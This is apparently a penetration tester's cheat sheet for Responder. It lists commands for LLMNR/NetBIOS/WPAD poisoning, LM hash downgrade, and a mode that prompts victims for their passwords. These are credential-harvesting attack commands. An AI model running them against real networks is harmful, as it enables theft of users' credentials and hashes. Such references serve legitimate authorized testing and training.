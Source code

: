 ### source
https://github.com/SpiderLabs/Responder  

### start responder for specific ip addresses inside: /etc/responder/Responder.conf - leave empty for all
```
RespondTo = <ip>
```

### analyzse mode (just print do not respond) 
```
python Responder.py -I <interface> -A
```

### default responds to SMB, w = start WPAD proxy server, r = answer netbios wredir, f = fingerprint queries, lm = lm hash downgrade, d = answers netbios domain suffix queries
```
python Responder.py -wrf --lm -v -I <interface>
```

### opens a window to ask for password
```
python ./Responder.py -I <interface> -wfFbv
```

